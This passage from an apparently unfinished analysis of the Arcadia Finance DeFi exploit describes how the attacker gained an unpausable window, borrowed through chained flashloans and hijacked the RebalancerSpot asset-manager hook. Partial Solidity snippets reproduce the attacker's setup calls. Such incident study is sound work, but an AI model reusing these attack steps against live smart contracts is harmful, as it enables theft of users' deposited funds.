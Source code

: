 ```solidity
    // Execute arbitrary swap.
    (bool success, bytes memory result) = router.call(data);
    require(success, string(result));

    //...

}
```

### Attack Overview

The attacker deployed two contracts that triggered Arcadia Finance's automated circuit breakers, pausing the protocol. When the team investigated and found no threat, they unpaused the protocol. This created a cooldown period during which the protocol could not be paused again, providing a guaranteed execution window.

After that, the attacker deployed multiple exploit contracts designed to interact with the Arcadia Protocol and created multiple Arcadia accounts for use in the attack.

The attacker obtained approximately $1.5 billion through three sequential Morpho flashloans (`USDC`, `WETH`, and `cbBTC`). The flashloans were chained together using the `onMorphoFlashLoan` callback function, where each callback would initiate the next `flashloan` call until all three tokens were borrowed. This capital was required for manipulating the protocol's state and repaying victim account debts.

Using one of his previously created accounts, the attacker linked the `RebalancerSpot` contract as an Asset Manager, designating himself as the `initiator` to gain control over rebalancing operations.

//TODO: Explain the exploit hook
```solidity
IAccount(accounts[0]).setAssetManager(rebalancerSpot, true);

IRebalancerSpot(rebalancerSpot).setAccountInfo(
    accounts[0], // account,
    address(this), // initiator,
    exploitHook // hook
);
```

The attacker created a liquidity position and deposited it into the attacker's Arcadia account along with additional USDC and cbBTC tokens. This position served as the entry point for the malicious rebalancing operation.

```solidity
(uint256 tokenId,_,_,_) = nonFungiblePositionManagerAERO_CL_POS.mint(mintParams);

nonFungiblePositionManagerAERO_CL_POS.setApprovalForAll(
    accounts[0],
    true
);

address[] memory assetAddresses = new address[](3);
assetAddresses[0] = address(nonFungiblePositionManagerAERO_CL_POS);
assetAddresses[1] = address(USDC);
assetAddresses[2] = address(cbBTC);

uint256[] memory assetIds = new uint256[](3);
assetIds[0] = tokenId;
assetIds[1] = 0;
assetIds[2] = 0;

uint256[] memory assetAmounts = new uint256[](3);
assetAmounts[0] = 1;
assetAmounts[1] = 10000000;
assetAmounts[2] = 100000000;
```